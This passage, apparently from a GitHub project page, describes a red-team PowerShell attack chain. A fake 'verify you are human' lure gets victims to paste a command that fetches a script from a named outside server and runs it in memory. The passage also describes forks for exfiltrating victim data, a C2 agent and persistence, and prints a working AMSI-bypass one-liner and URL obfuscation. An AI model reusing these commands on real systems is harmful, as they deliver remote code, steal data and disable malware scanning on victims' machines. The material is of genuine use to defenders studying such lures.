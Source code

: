 The attack begins with a social engineering lure—a seemingly innocuous message directing the user to "verify they are humans" using a copy-paste command into Win + R or a browser address bar.

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -Command irm 'https://server.amtzespinosa.com/payload.html' | iex
```

This command:

-   **Bypasses execution policies**
-   **Avoids profile scripts** for faster execution
-   **Fetches remote HTML/PS1** content and executes it **immediately in memory**

### Execution: Modular forks and stealth

The initial `.txt` script (`cloudflare.verification.txt`) saved as a `.ps1` file, when executed, acts as a modular launcher. Once executed, it proceeds to:

-   **Download multiple forks** from a remote server
-   **Write them to a visible location** (like Desktop, for testing)
-   **Launch them silently in using:**

```powershell
powershell [-WindowStyle Hidden] -ExecutionPolicy Bypass -File <path>
```

-   `<path>`: for testing purposes, i have used `$env:USERPROFILE\Desktop\<file>` but you can use another directory like `$env:APPDATA\<file>`.
-   `[-WindowStyle Hidden]`: for testing purposes I am not hiding the terminal window just to show the stuff.

#### Payload forks

-   `infoexfil.ps1` – Performs recon and posts victim metadata
-   `agent.ps1` – Establishes C2 connection and awaits commands
-   `persist.ps1` – Adds persistence using registry or scheduled tasks

### Defender evasion techniques

Though the chain uses mostly stock PowerShell, a number of evasion methods can be applied:

#### AMSI bypass (not implemented)

By injecting a patch into `AmsiScanBuffer`, the script can disable scanning mid-session:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Obfuscation (not implemented)

All URLs and script names can be base64-encoded or scrambled using string concatenation:

```powershell
$u ='https://' + ('ser' + 'ver.amtzespinosa.com') + '/payloads/' + ('agent' + '.ps1')
```
